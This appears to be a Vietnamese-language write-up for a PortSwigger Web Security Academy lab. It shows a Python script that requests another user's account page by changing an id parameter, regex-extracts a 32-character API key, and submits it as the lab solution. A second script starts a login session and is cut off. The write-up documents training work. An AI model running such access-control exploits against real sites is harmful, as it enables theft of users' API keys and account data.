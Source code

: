 ![image](https://hackmd.io/_uploads/By3Jt93t6.png)

và mình submit API: `0NiOxrVK7szQ2oC0PIrQiOaWrsizFzJ7`

![image](https://hackmd.io/_uploads/SyGBY9nt6.png)

mình đã viết lại script khai thác

```python=
#!/usr/bin/python3.7
import requests
import re
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
from bs4 import BeautifulSoup

url = 'https://0a7f0043040daa4681f6b62200e70086.web-security-academy.net'

params = {
    'id': 'fb7d3452-83a6-423c-a12d-6ea696552096',
}

response = requests.get(
    url + '/my-account',
    params=params,
    verify=False,
    allow_redirects=False
)

pattern = r'\b\w{32}\b'
match = re.search(pattern, response.text).group()

data = {
    'answer': match,
}

response = requests.post(
    url + '/submitSolution',
    data=data,
    verify=False,
)

# print(response.text) # hiển thị response có flag
soup = BeautifulSoup(response.text, 'html.parser')
print(soup)
```

hoặc

```python=
#!/usr/bin/python3.7
import requests
import re
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
from bs4 import BeautifulSoup

url = 'https://0a93007903b2f92a80b22b37008a0023.web-security-academy.net'

session = requests.Session()

response = session.get(
    url + '/login',
    verify=False,
)

```